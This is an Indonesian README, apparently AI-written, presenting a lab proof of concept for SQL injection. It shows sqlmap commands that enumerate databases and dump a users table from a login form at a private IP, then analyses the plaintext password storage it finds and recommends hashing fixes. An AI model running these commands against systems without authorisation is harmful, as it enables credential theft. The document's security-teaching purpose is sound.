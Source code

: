 Berikut adalah `README.md` yang lebih lengkap untuk menjelaskan proses eksploitasi dengan `sqlmap`, temuan password yang tidak di-hash, dan penjelasan tentang *Cryptographic Failures*.

```markdown
# SQL Injection Proof of Concept (PoC) Using SQLMap

## Deskripsi
Dokumen ini adalah *Proof of Concept (PoC)* untuk menguji kerentanan SQL Injection pada endpoint `http://192.168.1.5/users/login.php` menggunakan `sqlmap`. Uji coba ini bertujuan untuk mengeksplorasi database, menemukan tabel pengguna, dan meninjau cara penyimpanan password pengguna di database.

> **Peringatan**: Ini adalah PoC yang hanya boleh digunakan pada sistem yang Anda miliki atau memiliki izin resmi untuk diuji. Mengakses atau memodifikasi data tanpa izin melanggar hukum.

---

## Prasyarat
1. **sqlmap** terinstal di sistem Anda. Untuk mengunduh, kunjungi [sqlmap.org](https://sqlmap.org/).
2. Akses ke endpoint `http://192.168.1.5/users/login.php`.

---

## Langkah-Langkah Eksekusi

### 1. Menemukan Database yang Tersedia
Gunakan perintah berikut untuk menemukan database yang tersedia di server:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" --dbs
```

#### Penjelasan Parameter
- `-u "http://192.168.1.5/users/login.php"`: Menentukan URL target.
- `--data="username=admin&password=password"`: Mengirim data POST dengan parameter `username` dan `password`.
- `--dbs`: Meminta `sqlmap` untuk menampilkan daftar database yang tersedia di server.

#### Contoh Output
Output dari langkah ini akan menampilkan daftar database yang tersedia, misalnya:

```plaintext
[INFO] retrieved: blog_db
[INFO] retrieved: test_db
```

### 2. Mengambil Data dari Tabel `users` di Database `blog_db`
Setelah database ditemukan, kita bisa mengambil data dari tabel tertentu. Gunakan perintah berikut untuk mengambil data dari tabel `users` di database `blog_db`:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" -D blog_db -T users --dump
```

#### Penjelasan Parameter
- `-D blog_db`: Menentukan nama database (`blog_db`) yang ingin diakses.
- `-T users`: Menentukan nama tabel (`users`) yang ingin diambil datanya.
- `--dump`: Menginstruksikan `sqlmap` untuk menampilkan seluruh data dari tabel yang ditargetkan.

#### Contoh Output
Output dari perintah ini mungkin menampilkan data seperti berikut:

```plaintext
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin123 |
| 2  | user     | userpass |
+----+----------+----------+
```

Pada hasil di atas, terlihat bahwa kolom `password` menyimpan password dalam bentuk teks biasa (*plain text*), bukan dalam bentuk yang terenkripsi atau di-hash. Ini adalah kelemahan serius yang masuk dalam kategori **Cryptographic Failures**.

---

## Analisis Kelemahan: Cryptographic Failures
### Penjelasan
Menyimpan password dalam bentuk teks biasa merupakan contoh *Cryptographic Failures*, di mana data sensitif seperti password tidak dilindungi dengan metode kriptografi yang tepat. Kelemahan ini dapat menyebabkan risiko besar bagi keamanan data pengguna.

### Dampak
1. **Akses Tidak Sah**: Jika terjadi pelanggaran data, penyerang bisa langsung melihat dan menggunakan password.
2. **Kegagalan Kepatuhan**: Banyak standar keamanan (misalnya, GDPR, HIPAA, PCI-DSS) mengharuskan data sensitif dienkripsi atau di-hash.
3. **Penyalahgunaan Kredensial**: Jika pengguna memakai ulang password di sistem lain, hal ini bisa mengakibatkan serangan yang meluas.

### Rekomendasi
Untuk mencegah kelemahan ini:
- **Hash Password dengan Algoritma yang Aman**: Gunakan hashing dengan algoritma yang kuat seperti `bcrypt`, `argon2`, atau `scrypt`.
- **Implementasikan Salt dan Pepper**: Tambahkan salt (nilai acak) pada setiap password sebelum hashing untuk meningkatkan keamanan dan mencegah serangan *rainbow table*.
- **Jangan Simpan Password dalam Teks Biasa**: Hindari menyimpan data sensitif dalam bentuk teks yang dapat dibaca langsung.

---

## Output yang Diharapkan dengan Penanganan yang Benar
Jika password disimpan dengan hashing yang benar, hasil dump seharusnya menunjukkan string acak yang terenkripsi, misalnya:

```plaintext
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | admin    | $2y$12$ePjDf5Kjd91ahZn/rF2ZLO3MC5E1.Ln.bD |
| 2  | user     | $2y$12$HtXmX47SDh2PAphH71HX93r/Kz6Re9kjgq |
+----+----------+-------------------------------------------+
```

---

## Gambar Hasil Eksekusi

### Hasil Langkah 1: Menemukan Database yang Tersedia
![Database List](images/database_list_result.png)

### Hasil Langkah 2: Mengambil Data dari Tabel `users`
![User Table Dump](images/user_table_dump.png)

Gambar di atas menunjukkan data dari tabel `users` yang menyimpan password dalam bentuk teks biasa, yang merupakan contoh *Cryptographic Failures*.

---

## Referensi
- [SQLMap Documentation](https://sqlmap.org/)
- [OWASP Cryptographic Failures](https://owasp.org/Top10/A03_2021-Cryptographic_Failures/)

---

> **Catatan Penting**: Pastikan Anda memiliki izin untuk melakukan pengujian ini. Semua pengujian dan eksplorasi dalam dokumen ini hanya untuk tujuan pembelajaran di lingkungan yang diizinkan.
```

Dalam `README.md` ini, penjelasan mengenai *Cryptographic Failures* sudah termasuk dampak dan rekomendasi solusi untuk mencegah kelemahan tersebut. Selain itu, gambar hasil eksekusi dapat ditempatkan sesuai instruksi di bagian gambar untuk membantu memberikan visualisasi.

